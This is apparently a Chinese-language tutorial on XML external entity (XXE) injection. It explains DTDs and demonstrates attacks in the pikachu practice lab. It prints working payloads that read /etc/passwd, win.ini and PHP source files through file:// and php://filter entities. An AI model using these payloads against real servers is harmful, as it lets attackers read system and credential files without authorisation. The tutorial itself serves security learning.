

# XXE漏洞介绍


XXE -"xml external entity injection"
既"xml外部实体注入漏洞"。
概括一下就是"攻击者通过向服务器注入指定的xml实体内容,从而让服务器按照指定的配置进行执行,导致问题"
也就是说服务端接收和解析了来自用户端的xml数据,而又没有做严格的安全控制,从而导致xml外部实体注入。

xml是一种可拓展的标记语言，可以用来存储数据，例如：我们经常看到一些.xml的文件；它还可以用来传输数据，我们可以直接将数据以xml的格式放在请求当中，发给服务器。

**第一部分：XML声明部分**

```
<?xml version="1.0"?>
```

**第二部分：文档类型定义 DTD**

```
<!DOCTYPE note[
<!--定义此文档是note类型的文档-->
<!ENTITY entity-name SYSTEM "URI/URL">
<!--外部实体声明-->
]>
```

**第三部分：文档元素**

```
<note>
<to>Dave</to>
<from>Tom</from>

<head>Reminder</head>

<body>You are a good man</body>
</note>
```

**DTD**（Document Type Definition，文档类型定义），用来为 XML 文档定义语法约束，可以是内部申明也可以使引用外部.

DTD现在很多语言里面对应的解析xml的函数默认是禁止解析外部实体内容的，从而也就直接避免了这个漏洞**。**

**内部申明DTD格式**

```
<!DOCTYPE 根元素 [元素申明]>
```

**外部引用DTD格式**

```
<!DOCTYPE 根元素 SYSTEM "外部DTD的URI">
```


**引用公共DTD格式**

```
<!DOCTYPE 根元素 PUBLIC "DTD标识名" "公共DTD的URI">
```


**外部实体例**

**外部实体引用 Payload**

```
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY f SYSTEM "file:///etc/passwd">
]>
<x>&f;</x>
```

外部引用可以支持http，file，ftp等协议。

**如果一个接口支持接收xm|数据，且没有对xml数据做任何安全上的措施，就可能导致XXE漏洞**

simplexml_load_string()

函数转换形式良好的XML 字符串为 **SimpleXMLElement** 对象。

在PHP 里面解析 xml 用的是 libxml, 其在 2.9.0 的版本中 默认是禁止解析 xml 外部实体内容的。

**XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致攻击者可以构造一个恶意的XML**


# XXE漏洞演示

打开pikachu的xxe，我们先查看他的后端代码，我们可以看到他是通过post请求来获取到前端的xml数据，然后直接给simplexml_load_string()函数进行解析，然后将解析的数据再返回到前端

[

 

 接着我们在pikachu中用一段正常的xml来测试一下


```
<?xml version = "1.0"?>
<!DOCTYPE note [
    <!ENTITY hacker "XXE hahaha">
]>
<name>&hacker;</name>
```

[

 

 可以看到直接将我们DTD中的值给返回了

接这我们来构造一个恶意的payload，通过外部实体引用从而去获取后台服务器的本地文件信息(注：外部引用可以支持http，file，ftp等协议。)


```
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "file://etc/passwd">
]>
<x>&f;</x>
```

点击提交后，可以看到将指定文件给读取出来了

[

 

**正常读php文件**

```
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE a[
        <!ENTITY xxe SYSTEM 'file:///c:windows/win.ini'>		//'c:/windows/win.ini'也行
]>

<user><username>&xxe;</username><password>admin</password></user>
```




**编码读php文件**

```
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE a[
        <!ENTITY xxe SYSTEM 'php://filter/read=convert.base64-encode/resource=d:/phpstudy_pro/WWW/1.php'>
]>

<user><username>&xxe;</username><password>admin</password></user>
```


 总结：后端在接收xml数据时，开启了外部实体解析，而且也没对传来的数据做任何的过滤等安全措施。
